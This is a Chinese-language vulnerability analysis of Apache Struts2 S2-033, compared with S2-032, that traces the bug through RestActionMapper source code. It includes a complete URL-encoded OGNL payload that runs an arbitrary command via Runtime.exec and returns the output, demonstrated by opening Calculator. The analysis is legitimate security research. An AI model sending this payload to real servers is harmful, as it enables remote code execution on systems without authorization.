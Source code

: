 S2-032在修复时直接在`method:`后内容截取时加入了正则`[a-zA-Z0-9._!/\\-]*`

### S2-033
S2-033的官方描述`Remote Code Execution can be performed when using REST Plugin with ! operator when Dynamic Method Invocation is enabled.`需要开启动态调用
S2-033和S2-032很类似。S2-032的`DefaultActionMapper`没有对参数名进行过滤。导致执行到`DefaultActionInvocation.invokeAction()`后恶意OGNL被执行。S2-032在修复时也是加入了过滤的正则。而S2-033则是采用`RestActionMapper`为入口替换了`DefaultActionMapper`。绕过了正则判断，最终还是执行到`DefaultActionInvocation.invokeAction()`

这里需要提一下动态调用必须开启才能利用的逻辑，看一下`RestActionMapper.getMapping()`的代码
```
public ActionMapping getMapping(HttpServletRequest request, ConfigurationManager configManager) {
    this.handleSpecialParameters(request, mapping); // 对特殊字符进行转义
    if (mapping.getName() == null) {
	return null;
    } else {
	this.handleDynamicMethodInvocation(mapping, mapping.getName()); // (1) 如果存在`!`，mapping.setMethod(截取`!`后的内容)
	String fullName = mapping.getName(); // 获取全路径名，例如orders/4/payload
	if (fullName != null && fullName.length() > 0) { 
	    int lastSlashPos = fullName.lastIndexOf(47); //最后一个`/`的位置
	    if (lastSlashPos > -1) {
	        int prevSlashPos = fullName.lastIndexOf(47, lastSlashPos - 1);
		if (prevSlashPos > -1) {
		    mapping.setMethod(fullName.substring(lastSlashPos + 1)); // (2) 截取最后一个`/`的位置后的字符串
	        }
...
}
```
动态调用的判断就在(1)这步，开启后截取`!`后的内容赋值给method。到了`DefaultActionInvocation.invokeAction()`就可以正常取出method值进行OGNL计算。
```
private void handleDynamicMethodInvocation(ActionMapping mapping, String name) {
    int exclamation = name.lastIndexOf("!");
    if (exclamation != -1) {
        mapping.setName(name.substring(0, exclamation));
        if (this.allowDynamicMethodCalls) { // 如果开启了动态调用
	    mapping.setMethod(name.substring(exclamation + 1));
        } else {
	    mapping.setMethod((String)null);
        }
    }
}
```
动态调用开启需要在struts.xml中进行配置，配置如下
```
<constant name="struts.enable.DynamicMethodInvocation" value="true">
```
S2-033payload如下
```
!%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23process%3D@java.lang.Runtime@getRuntime%28%29.exec(%23parameters.command[0]),%23ros%3D%28@org.apache.struts2.ServletActionContext@getResponse%28%29.getOutputStream%28%29%29%2C@org.apache.commons.io.IOUtils@copy%28%23process.getInputStream%28%29%2C%23ros%29%2C%23ros.flush%28%29,%23xx%3d123,%23xx.toString.json?&command=open -a Calculator.app
```
可以看到S2-033的payload是以.json结尾的。由于这个漏洞借助的REST插件。查看REST插件的配置文件`struts-plugin.xml`
```
<bean type="org.apache.struts2.dispatcher.mapper.ActionMapper" name="rest" class="org.apache.struts2.rest.RestActionMapper" />
...
<constant name="struts.action.extension" value="xhtml,xml,json" />
```
Struts2中`DefaultActionMapper`用来处理action请求。上述配置文件中将访问`xhtml,xml,json`也定义为action请求，并且由RestActionMapper来处理。所以需要将payload末尾设置成其中一个。
